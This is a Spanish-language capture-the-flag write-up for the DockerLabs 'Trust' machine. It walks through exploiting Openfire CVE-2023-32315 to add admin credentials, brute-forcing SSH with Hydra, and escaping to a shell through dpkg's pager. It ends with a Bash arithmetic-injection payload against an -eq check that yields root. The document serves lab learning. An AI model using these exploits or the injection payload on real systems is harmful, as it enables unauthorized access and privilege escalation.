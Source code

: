 # Maquina Trust - DockerLabs

* Nivel : Medio
* Máquina : Linux
* Útil para el Ejptv2
* Ip Maquina : 172.17.0.2

## Escaneo de puertos

```bash
sudo nmap -A -sV -O -T4 -p- -Pn 172.18.0.2
```

El escaneo me da varios puertos abiertos, me dice que esta usando un protocolo de XMPP, Openfire 3.10.0. Uno de los puertos el 9090 es un login.

## Puerto 9090

Aparece un login de openfire. Buscare algún exploit para su verisón.

En github he encontrado el siguiente exploit : https://github.com/K3ysTr0K3R/CVE-2023-32315-EXPLOIT/blob/main/CVE-2023-32315.py, que da el user y el password para acceder al openfire login.

```bash
python3 CVE-2023-32315.py -u http://172.17.0.2:9090

 ██████ ██    ██ ███████       ██████   ██████  ██████  ██████        ██████  ██████  ██████   ██ ███████
██      ██    ██ ██                 ██ ██  ████      ██      ██            ██      ██      ██ ███ ██     
██      ██    ██ █████   █████  █████  ██ ██ ██  █████   █████  █████  █████   █████   █████   ██ ███████
██       ██  ██  ██            ██      ████  ██ ██           ██            ██ ██           ██  ██      ██
 ██████   ████   ███████       ███████  ██████  ███████ ██████        ██████  ███████ ██████   ██ ███████

Coded By: K3ysTr0K3R --> Hug me ʕっ•ᴥ•ʔっ

[*] Launching exploit against: http://172.17.0.2:9090
[*] Checking if the target is vulnerable
[+] Target is vulnerable
[*] Adding credentials
[+] Successfully added, here are the credentials
[+] Username: hugme
[+] Password: HugmeNOW

```
Foto

Una vez dentro ir a users y buscar algun posible user o password para acceder por ssh. Probare chocolatitochingon con hydra por si encuentra su password.

```bash
hydra -l chocolatitochingon -P /usr/share/wordlists/rockyou.txt -t 4 172.17.0.2 ssh
DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: chocolatitochingon   password: chocolate
1 of 1 target successfully completed, 1 valid password found

```
Ha encontrado el password.

## Esclar privilegios

Una vez dentro del ssh, he probado de hacer sudo -l y puedo ejecutar el dpkg con root con el user pinguinacio sin password.

```bash
chocolatitochingon@2df46c2e630d:~$ sudo -l
Matching Defaults entries for chocolatitochingon on 2df46c2e630d:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User chocolatitochingon may run the following commands on 2df46c2e630d:
    (pinguinacio) NOPASSWD: /usr/bin/dpkg
```
He ejecutado el archivo pero necesita algo más. He buscado en GTFobins y he encontrado :

```bash
chocolatitochingon@2df46c2e630d:/usr/bin$ sudo -u pinguinacio /usr/bin/dpkg -l
Después escribir : !/bin/sh
```
Y ya escalas a pinguinancio.

Y vuelvo a hacer sudo -l

```bash
sudo -l
Matching Defaults entries for pinguinacio on 2df46c2e630d:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User pinguinacio may run the following commands on 2df46c2e630d:
    (ALL) NOPASSWD: /bin/bash /home/pinguinacio/script.sh

```
He entrado a la ruta, he visto que no tiene privilegios para modificar el archivo, he leido el programa y he buscado alguna vulnerabilidad con el operador -eq.
```bash
sudo /bin/bash /home/pinguinacio/script.sh
```
Y contestar :

```bash
a[$(/bin/bash >&2)]+42

```
Y escalas a root. 

El por que : El operador -eq intenta convertir ambos lados en números. Si le das algo que no es un número puro, Bash lo interpretará como una expresión aritmética y tratará de evaluarlo.
